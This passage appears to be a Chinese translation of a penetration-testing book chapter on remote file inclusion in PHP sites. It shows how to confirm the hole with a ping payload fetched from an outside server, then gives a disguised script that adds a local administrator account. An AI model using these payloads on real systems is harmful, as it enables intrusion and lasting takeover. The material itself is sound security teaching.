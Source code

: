 ![The execution of file inclusion attacks](graphics/B04315_07_08.jpg)

正如前面提到的一样，有时可以在目标 web 服务器上使用其他协议进行交互。如果您通过将 IP 地址添加到防火墙或**访问控制列表**（**ACL**）中的授权列表中，为自己提供了更多访问半可信网络或 DMZ 的权限，您可能能够看到**服务器消息块**（**SMB**或 RDP 等服务。因此，根据环境的不同，您可能不需要为自己提供额外的访问权限；只要破解 web 服务器就可以为您提供足够的访问权限。

大多数文件包含漏洞与**超文本预处理器**（**PHP**）网站有关。其他语言集可能容易受到攻击，但基于 PHP 的网站最为常见。因此，让我们创建一些伪装成文本文件的 PHP 脚本来验证漏洞并利用底层服务器进行攻击。

### 验证 RFI 漏洞

当你怀疑你已经发现 RFI 暴露时，你需要在利用它之前确认确实存在漏洞。首先，在面向互联网的服务器上启动一个`tcpdump`服务，让其监听**互联网控制消息协议**（**ICMP**）与以下命令的回声：

```
sudo tcpdump icmp[icmptype]=icmp-echo -vvv -s 0 -X -i any -w /tmp/ping.pcap

```

此命令将生成一个文件，该文件将捕获`ping`命令发送的所有这些消息。Ping 公开的 web 服务器，找到服务器的实际 IP 地址，并记录它。然后，创建以下 PHP 文件，该文件存储为名为`ping.txt`的文本文件：

```
<pre style="text-align:left;">
<?php
    echo shell_exec('ping -c 1 <listening server>');
?>
</pre>
```

您现在可以通过以下命令引用文件来执行攻击：

[http://www.example.website.com/?target=70.106.216.176:8000/server/ping.txt](http://www.example.website.com/?target=70.106.216.176:8000/server/ping.txt)

一旦攻击被执行，您可以使用以下命令查看**数据包捕获（PCAP）**：

```
tcpdump -tttt -r /tmp/ping.pcap

```

如果您看到来自与 ping 相同服务器的 ICMP 回音，则您知道该服务器易受 RFI 攻击。

### 通过 RFI 利用主机

当您发现有漏洞的 Windows 主机时，它通常以特权帐户运行。因此，首先，通过 PHP 脚本向系统添加另一个本地管理员帐户可能会很有用。这是通过创建以下脚本并将其写入文本文件（如`account.txt`）来完成的：

```
<pre style="text-align:left;">
<?php
    echo shell_exec('net user pentester ComplexPasswordToPreventCompromise1234 /add');
    echo shell_exec('net localgroup administrators pentester /add'):
?>
</pre>
```
